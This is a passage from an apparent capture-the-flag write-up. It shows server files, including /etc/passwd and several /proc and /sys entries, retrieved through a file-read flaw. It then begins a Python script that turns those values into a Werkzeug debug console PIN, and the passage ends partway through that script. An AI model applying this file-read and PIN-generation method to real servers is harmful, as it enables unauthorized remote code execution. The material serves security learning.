 For more info check the article [here](https://www.daehee.com/blog/werkzeug-console-pin-exploit).

Using similar process above, I was able to retrieve the following files:

Contents of //etc/passwd:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
jacobi:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Contents of ////proc/net/arp:
```
IP address       HW type     Flags       HW address            Mask     Device
172.17.0.1       0x1         0x2         d6:d4:b8:80:74:e6     *        eth0
```

Contents of //sys/class/net/eth0/address:
```
6a:0a:ec:e5:6c:45
```

Contents of ///proc/self/cmdline:
```
/usr/local/bin/python server.py --boot_id_file ./bootid 
```

Contents of /a/very/strange/working/directory/bootid:
```
290a0861-7055-4ec3-9916-cdb1f7e47fcc
```

Contents of ////proc/self/cgroup:
```
0::/
```

After retrieving all these files, we can finally piece everything together and generate the PIN for the console! Using this python script:
```python
import hashlib
import itertools
from itertools import chain

def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.md5()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
```